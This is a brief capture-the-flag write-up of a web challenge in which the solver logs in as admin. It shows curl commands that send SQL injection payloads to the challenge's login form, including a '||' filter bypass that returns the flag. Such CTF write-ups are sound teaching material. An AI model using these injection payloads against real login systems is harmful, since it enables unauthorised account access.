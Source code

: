 ### Solved by barrebas

A web challenge! For 100 points, we we're asked to log in as `admin`.

Pointing a browser to the challenge site gave us the option to login, or register. I decided to register `testz0r:testz0r` and logged in. The login then asked me to login as admin. Well, I had no password for admin. I went back to the register page, thinking there was a SQLi there. That might allow me to inject into the INSERT INTO statement and update the admin's password. Alas, no dice.

I again fired up `curl` and tried to get some SQLi going on the login form.

```bash
curl http://hack.bckdr.in/JUDGE/index.php --data "username=testz0r' or 'a'='a&password=testz0r"
<!DOCTYPE html>

<html>

<head>
<title>Login</title>
</head>

<body>
An Error occured
```

After messing around for a while, I remembered that sometimes, keywords like `OR` and `AND` are filtered. I tried to substitute `OR` for `||` and whadda-ya-know:

```bash
$ curl http://hack.bckdr.in/JUDGE/index.php --data "username=admin'||'1&password=testz0r"
<!DOCTYPE html>

<html>

<head>
<title>Login</title>
</head>

<body>
Flag is [REDACTED]
```

Done! One filter bypass was all it took.

